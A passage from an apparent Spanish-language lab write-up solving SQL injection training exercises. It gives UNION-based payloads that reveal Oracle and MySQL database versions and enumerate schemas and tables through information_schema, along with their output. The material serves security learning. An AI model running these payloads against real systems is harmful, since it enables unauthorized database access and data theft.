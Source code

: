 ```mysql
' union select NULL,banner from v$version-- -
```

Info:

```
|CORE 11.2.0.2.0 Production|
|NLSRTL Version 11.2.0.2.0 - Production|
|Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production|
|PL/SQL Release 11.2.0.2.0 - Production|
|TNS for Linux: Version 11.2.0.2.0 - Production|
```

### # Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft

En este caso tenemos que saber la version de la base de datos de `Microsoft` sabiendo que hay 2 columnas todavia haremos lo siguiente...

Guiandonos de la chuleta de la propia pagina en la seccion de `Microsoft` pondria algo tal que asi...

```
SELECT @@version
```

Por lo que hariamos lo siguiente...

```mysql
' union select NULL,@@version-- -
```

Y con esto ya habriamos resuelto esta parte...

Info:

```
8.0.36-0ubuntu0.20.04.1
```

### Lab: SQL injection attack, listing the database contents on non-Oracle databases

Aqui nos pide que saquemos el usuario y contraseña de la base de datos de esta pagina, por lo que haremos lo siguiente en la URL...

```mysql
' union select NULL,NULL-- -
```

Con esto sabemos que no es nada de `Oracle` ni nada parecido...

```mysql
' union select NULL,schema_name from information_schema.schemata-- -
```

Veremos que nos aparece una llamada `public` por lo que haremos lo siguiente...

```mysql
' union select NULL,table_name from information_schema.tables where table_schema='public'-- -
```
